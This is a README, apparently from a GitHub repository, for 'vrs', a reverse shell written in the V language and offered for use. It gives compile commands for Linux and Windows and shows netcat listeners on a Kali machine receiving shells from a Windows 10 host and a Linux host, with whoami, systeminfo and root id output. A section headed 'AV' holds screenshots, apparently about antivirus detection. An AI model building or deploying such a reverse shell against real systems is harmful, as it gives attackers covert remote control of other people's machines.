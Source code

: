 
# vrs

portable v based reverse shell

https://vlang.io/

https://github.com/vlang/v#installing-v-from-source

**Compile**

must compile on target platform (at least for now, relatively new language)

```
root@kali:/opt/v# ./v vrs.v 
root@kali:/opt/v# file vrs
vrs: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6aeb8728d17200150a78ea64d2db7c0accdddb2f, for GNU/Linux 3.2.0, not stripped
```

```
C:\Users\User\v>v.exe -os windows vrs.v
mingw not found, trying to build with msvc...

```

**Usage**

Windows
```
root@kali:/opt/v# nc -lvp 8080
listening on [any] 8080 ...
192.168.116.202: inverse host lookup failed: Unknown host
connect to [192.168.116.200] from (UNKNOWN) [192.168.116.202] 50780
whoami
windev1910eval\user

systeminfo

Host Name:                 WINDEV1910EVAL
OS Name:                   Microsoft Windows 10 Enterprise Evaluation
OS Version:                10.0.18362 N/A Build 18362

```

Linux
```
root@kali:/opt/v# nc -lvp 8080
listening on [any] 8080 ...
connect to [127.0.0.1] from localhost [127.0.0.1] 37634
id
uid=0(root) gid=0(root) groups=0(root)

whoami
root
```

**AV**

<img width="1316" alt="Screenshot 2019-11-29 at 11 26 07" src="https://user-images.githubusercontent.com/56988989/69866129-2a789d80-129b-11ea-9fbf-a0398c21a83b.png">

<img width="534" alt="Screenshot 2019-11-29 at 11 23 17" src="https://user-images.githubusercontent.com/56988989/69866128-2a789d80-129b-11ea-8386-781e646f87eb.png">

Enjoy~

